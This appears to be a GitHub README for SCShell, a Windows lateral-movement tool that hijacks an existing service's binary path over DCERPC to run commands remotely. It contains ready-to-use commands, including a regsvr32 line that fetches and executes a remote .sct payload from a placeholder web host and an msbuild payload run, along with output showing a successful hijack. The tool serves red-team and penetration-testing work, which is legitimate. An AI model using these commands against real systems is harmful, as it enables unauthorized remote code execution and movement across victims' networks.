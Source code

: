 # SCShell

SCShell is a fileless lateral movement tool that relies on ChangeServiceConfigA to run commands. The beauty of this tool is that it does not perform authentication against SMB. Everything is performed over DCERPC.

The utility can be used remotely WITHOUT registering a service or creating a service. It also doesn't have to drop any file on the remote system* (Depend on the technique used to execute)

# How it work

Instead of creating a service it simply remotely open a service and modify the binary path name via the `ChangeServiceConfigA` API.

Then it starts the service.

Once the execution is completed the service binary path is reverted to the original one. The original service path is extracted using `QueryServiceConfigA`.

Everything is happening over DCERPC including the authentication.

![network](https://raw.githubusercontent.com/Mr-Un1k0d3r/SCShell/master/network.png)



# Usage

The current build is written in `C` but I will port it to `C#` and `PowerShell`.

```
Usage:
SCShell.exe target service payload domain username password
```

`target` can be set to `local` to run the payload locally

Remote execution
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /c C:\windows\system32\regsvr32.exe /s /n /u /i://your.website/payload.sct scrobj.dll" . administrastor Password
```

I recommend using `C:\windows\system32\cmd.exe /c` to make sure to payload will not be killed once the service stop. You NEED to use the full path.

You can also use a msbuild payload
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" . administrator Password
SCShell ***
Trying to connect to 192.168.197.131
Username was provided attempting to call LogonUserA
SC_HANDLE Manager 0x009ED250
Opening XblAuthManager
SC_HANDLE Service 0x009ED1B0
Service path was changed to C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj
Service was started.
```

I'm using the XblAuthManager as the target which is the Xbox Accessory Management Service

# Compiling from source

The code was compiled on Windows using GCC Mingw compiler

# Credit
Mr.Un1k0d3r RingZer0 Team

Tazz0 for the moral support
